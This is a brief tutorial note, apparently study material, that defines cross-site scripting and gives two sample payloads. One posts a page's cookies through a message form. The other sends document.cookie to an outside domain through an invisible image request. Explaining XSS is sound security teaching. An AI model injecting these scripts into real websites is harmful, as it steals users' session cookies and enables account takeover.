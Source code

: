 ## $\textnormal{What is XSS?}$

```plaintext
https://learn.snyk.io/lesson/xss/
```

> - `Cross-site Scripting (XSS)` is a code vulnerability that occurs <br />
    when an attacker `injects` a malicious script into an otherwise <br />
    trusted website.

> - The injected script gets downloaded and executed by the end <br />
    user’s browser when the user interacts with the compromised website.

> - Since the script came from a trusted website, it cannot be <br />
    distinguished from a legitimate script.

```typescript
// Sample XSS attack that get the cookies.
<script>document.getElementById("messageText").innerHTML=document.cookie;document.getElementById("sendMessage").click();</script>

// This script constructs an invisible image object which calls the provided src URL the moment the image is created.
// Effectively, we issue an HTTP request with the cookie’s content in the URL to a domain of our choice.
<script>new Image().src="http://yourdomain.io/"+document.cookie;</script>
```
